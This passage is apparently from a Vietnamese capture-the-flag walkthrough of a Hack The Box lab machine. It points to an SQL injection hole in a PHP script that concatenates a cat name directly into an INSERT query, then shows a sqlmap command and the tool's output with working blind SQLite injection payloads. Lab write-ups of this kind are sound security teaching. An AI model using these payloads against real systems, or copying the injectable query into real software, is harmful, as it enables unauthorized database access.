 ![image.png](imgs/image%203.png)

Tiếp tục check source code của `accept_cat.php`, chúng ta sẽ thấy line có thể thực hiện SQLi

```php
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
$pdo->exec($sql_insert);
```

Mình sẽ sử dụng `sqlmap` cùng với các params được yêu cầu (`catId`, `catName`), token và table

```bash
$ sqlmap -u "http://cat.htb/accept_cat.php" --data "catId=1&catName=smurf" --cookie="PHPSESSID=e0i7kgq0m77rnlidfmfmj2atj3" -p catName --level=5 --risk=3 --dbms=SQLite
sqlmap identified the following injection point(s) with a total of 83 HTTP(s) requests:
---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catId=1&catName=smurf'||(SELECT CHAR(105,85,88,84) WHERE 6712=6712 AND 6561=6561)||'

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: catId=1&catName=smurf'||(SELECT CHAR(90,71,102,104) WHERE 3554=3554 AND 5979=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'
---
```
